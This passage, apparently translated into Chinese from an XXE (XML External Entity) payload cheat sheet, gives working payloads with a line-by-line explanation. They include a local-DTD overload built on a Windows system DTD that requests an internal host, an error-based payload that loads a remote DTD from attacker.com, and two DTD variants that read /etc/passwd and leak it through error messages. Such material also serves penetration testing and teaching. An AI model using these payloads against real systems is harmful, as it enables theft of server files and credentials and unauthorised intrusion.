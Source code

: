 - 披露HTTP响应

  ```xml
  <!DOCTYPE doc [
      <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
        <!ENTITY test "test"'
      >
      %local_dtd;
    ]><xxx>anything</xxx>
  ```

### 基于错误的——使用远程DTD

**触发XXE的有效载荷**：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**ext.dtd的内容**：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**ext.dtd的替代内容**：

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM '%data;:///'>">
%eval;
%leak;
```

让我们分解有效载荷：

1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`
  此行定义了一个名为file的外部实体，引用了Unix-like系统文件`/etc/passwd`（包含用户帐户详细信息）的内容。
2. `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
  此行定义了一个名为eval的实体，其中包含另一个实体定义。此其他实体（error）旨在引用一个不存在的文件，并在文件路径末尾附加file实体（`/etc/passwd`内容）。`&#x25;`是URL编码的"`%`"，用于在实体定义中引用实体。
3. `%eval;`
  此行使用eval实体，导致定义error实体。
4. `%error;`
  最后，此行使用error实体，尝试访问一个不存在的文件，其路径包括`/etc/passwd`的内容。由于文件不存在，将引发错误。如果应用程序将错误报告给用户并包含文件路径在错误消息中，则`/etc/passwd`的内容将作为错误消息的一部分披露，揭示敏感信息。
